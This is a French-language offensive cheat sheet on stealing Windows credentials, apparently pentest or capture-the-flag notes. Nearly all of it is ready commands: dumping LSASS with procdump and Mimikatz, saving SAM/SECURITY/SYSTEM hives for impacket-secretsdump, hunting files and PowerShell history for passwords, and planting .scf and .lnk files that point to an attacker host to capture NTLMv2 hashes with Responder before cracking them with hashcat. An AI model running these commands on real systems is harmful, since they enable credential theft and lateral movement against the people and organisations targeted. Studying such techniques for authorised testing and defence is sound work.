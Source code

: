 # 04-Vol d'Identifiants

La récupération d'identifiants (en clair, hashes, tickets Kerberos) est une méthode clé pour l'escalade de privilèges ou le mouvement latéral.

## Dump de LSASS (SeDebugPrivilege requis)
Le processus LSASS (Local Security Authority Subsystem Service) stocke les identifiants en mémoire.
```powershell
# S'assurer que SeDebugPrivilege est activé
# whoami /priv
# Import-Module .\Enable-Privilege.ps1; Enable-Privilege -Name "SeDebugPrivilege" # Si nécessaire

# Utiliser procdump (Sysinternals)
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# Transférer lsass.dmp sur la machine attaquante

# Utiliser Mimikatz sur la machine attaquante
# mimikatz # sekurlsa::minidump lsass.dmp
# mimikatz # sekurlsa::logonPasswords
```
Ou directement avec Mimikatz sur la cible (plus risqué, peut être détecté) :
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

## Extraction des Hashes des Ruches du Registre (SAM/SYSTEM/SECURITY)
Nécessite des privilèges élevés (souvent SYSTEM) ou `SeBackupPrivilege`.

**Avec SeBackupPrivilege :**
```powershell
# whoami /priv # Vérifier SeBackupPrivilege
reg save hklm\sam C:\temp\sam.hive
reg save hklm\security C:\temp\security.hive
reg save hklm\system C:\temp\system.hive
# Transférer les fichiers .hive sur la machine attaquante
```
Sur la machine attaquante :
```bash
impacket-secretsdump -sam sam.hive -security security.hive -system system.hive LOCAL
```

**Si déjà SYSTEM :**
Les mêmes commandes `reg save` fonctionnent.
Alternativement, `impacket-secretsdump` peut cibler une machine distante si les partages administratifs sont accessibles.

## Recherche de Mots de Passe dans des Fichiers
```powershell
# Rechercher des mots de passe dans des types de fichiers courants
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
findstr /SIM /C:"contraseña" *.txt *.ini *.cfg *.config *.xml # Espagnol
findstr /SIM /C:"motdepasse" *.txt *.ini *.cfg *.config *.xml # Français
# Adapter les mots-clés : "pwd", "creds", "credentials", "secret", "token", "apikey"

#Chercher des password manager
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
#Fichiers de config pour XAMPP
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
#Chercher pour des fichiers sensibles:
Get-ChildItem -Path C:\Users\username\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Exemples de fichiers spécifiques à vérifier
gc C:\Windows\Panther\Unattend.xml
gc C:\Windows\Panther\Unattend\Unattend.xml
gc C:\Windows\System32\sysprep\Unattend.xml
gc C:\unattend.xml
# Rechercher les fichiers de configuration d'applications (ex: web.config, settings.ini)
dir /s /b *pass*.txt *cred* *vnc* *.config* # Exemple de Sniper Box
type "C:\chemin\vers\config.xml" # Exemple Authority Box
type "..\user\db.php" # Exemple Sniper Box
```

## Historique PowerShell
```powershell
# Chemin de l'historique PSReadline
(Get-PSReadLineOption).HistorySavePath
# Afficher l'historique de l'utilisateur courant
Get-Content (Get-PSReadLineOption).HistorySavePath
# Afficher l'historique de tous les utilisateurs (nécessite des droits)
foreach($userprofile in (Get-ChildItem C:\Users -Directory)){
    $historyFile = Join-Path $userprofile.FullName "AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
    if(Test-Path $historyFile){
        Get-Content $historyFile -ErrorAction SilentlyContinue
    }
}
```

## Identifiants PowerShell Stockés (Credential Manager / XML)
```powershell
# Importer des identifiants exportés via Export-Clixml
# $credential = Import-Clixml -Path 'C:\chemin\vers\credential.xml'
# $credential.GetNetworkCredential().UserName
# $credential.GetNetworkCredential().Password

# Vérifier le gestionnaire d'identification Windows (Credential Manager)
cmdkey /list
```

## Capture de Hashes NTLMv2 via des Fichiers SCF sur un Partage
Crée un fichier `.scf` sur un partage réseau. Lorsqu'un utilisateur navigue vers ce partage, Windows Explorer tente de charger l'icône depuis un chemin UNC pointant vers la machine de l'attaquant, initiant une session SMB et envoyant le hash NTLMv2.

**1. Créer le fichier `.scf`**
Nommez le fichier avec `@` au début (ex: `@Details.scf`) pour qu'il apparaisse en haut du répertoire.
Contenu du fichier (ex: `icon.scf`):
```ini
[Shell]
Command=2
IconFile=\\<IP_ATTAQUANT>\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
Placez ce fichier sur un partage accessible par la victime.

**2. Lancer Responder sur la machine attaquante**
```bash
sudo responder -I <interface> -wrf -v
# Ou avec -I tun0 si via VPN/tunnel
```
Attendez que l'utilisateur accède au partage. Responder capturera le hash.
```
[SMB] NTLMv2-SSP Username : DOMAINE\Utilisateur
[SMB] NTLMv2-SSP Hash     : Utilisateur::DOMAINE:HASH_NTLMv2:BLOB:01010...
```

**3. Cracker le Hash**
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

## Capture de Hashes NTLMv2 via un Fichier `.lnk` Malveillant
Similaire aux fichiers SCF, mais fonctionne sur des versions plus récentes de Windows (ex: Server 2019) où les SCF peuvent être moins efficaces.

**1. Créer le fichier `.lnk` via PowerShell**
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\chemin\sur\partage\ou\local\MonDocumentImportant.lnk") # Placer sur un partage ou envoyer à la victime
$lnk.TargetPath = "\\<IP_ATTAQUANT>\share\dummy.file" # Peut être n'importe quel fichier, même inexistant
# $lnk.IconLocation = "%SystemRoot%\System32\SHELL32.dll,3" # Icône de dossier
$lnk.IconLocation = "\\<IP_ATTAQUANT>\share\icon.ico" # Pour forcer la connexion pour l'icône
$lnk.WindowStyle = 1
$lnk.Description = "Ce fichier déclenchera une requête d'authentification."
# $lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
Placez ce fichier `.lnk` sur un partage réseau accessible par la victime.

**2. Lancer Responder**
Comme pour la technique SCF, lancez Responder et attendez que l'utilisateur interagisse avec le fichier `.lnk` (même un simple affichage dans l'explorateur peut suffire si `IconLocation` pointe vers l'attaquant).

## Flux de Données Alternatifs (ADS - Alternate Data Streams)
Bien que principalement une technique de dissimulation, les ADS peuvent être utilisés pour stocker des identifiants ou des outils.
Exemple (Jeeves Box - lire un ADS) :
```bash
# Lister les flux de données alternatifs
dir /R

# Lire le contenu d'un flux de données alternatif
more < hm.txt:root.txt
# (Syntaxe : more < fichier:flux)
```
Cette technique est plus pour la découverte d'informations cachées que pour le vol direct d'identifiants système, mais elle est pertinente pour la recherche de secrets. 
